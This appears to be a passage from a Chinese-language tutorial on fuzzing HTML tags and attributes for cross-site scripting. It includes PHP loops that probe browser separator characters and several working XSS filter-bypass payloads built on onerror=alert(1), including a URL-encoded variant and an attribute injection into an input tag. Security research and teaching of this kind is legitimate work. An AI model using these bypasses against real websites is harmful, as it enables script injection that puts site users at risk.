```
<img/ \/\µ src=x onerror=alert(1)//>

```

测试发现，标签名与属性名直接只要是以/开头以/或"结尾，中间几乎可以插入任意字符。

在Fuzzing属性方面，考虑两方面，一个是可以使用什么分隔符，一个是属性值可以采用什么编码。

分隔符有很多种，单引号，双引号，无任何引号，反撇号（IE中）。

```
<?php
for($i = 1; $i <= 255; $i++) {
    $character = chr($i);
    echo '<div><font size='. $character. '20'. $character. '>'.$i.' </font></div>';
} ?>

```

上面代码可以直观的看出当前浏览器支持的分隔符有哪些字符。

上面代码size属性如果输入的是字符的话，会顺利执行，所以当$character中循环到数字的时候也会顺利解析，但这并非是把数字当成了分割符：

```
<?php
for($i = 20; $i <= 255; $i++) {
    $character = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');
    echo '<div><img title="'.$i.'" src='.$character. 'http://www.google.com/intl/en_ALL/images/logo.gif'. $character. '></div>'; 
} ?>

```

以上代码可以看出，属性为字符串的时候，可以作为分隔符的字符。

为了表示那些不可打印的字符，就用`\x十六进制`来表示：

```
<img src=\x17\x17 onerror=alert(1)//>

```

以上代码\x17即表示不可打印字符chr(23)，浏览器提交的时候可以输入%3Cimg%20src%3D%17%17%20onerror%3Dalert%281%29%2f%2f%3E。

在src中可以正常工作的分隔字符，在处理事件的属性里不一定会工作，例如onerror。

但是仍然有一些字符可以达到我们的目的，ASCII表中的133和160已经IE中的空字符，甚至是分号。

```
<img/\%20src=%17y%17 onerror=%C2%A0alert(1)//>

```

以上代码urldecode之后在chrome中可以顺利执行。

下面讨论多个标签的问题，比如用户可控的数据插入到了`<input>`标签中，同时过滤了`<>`只能插入标签内数据：

```
<input value="" type=image src=1 onerror=alert(1)//" type="hidden" name="foo" />

```
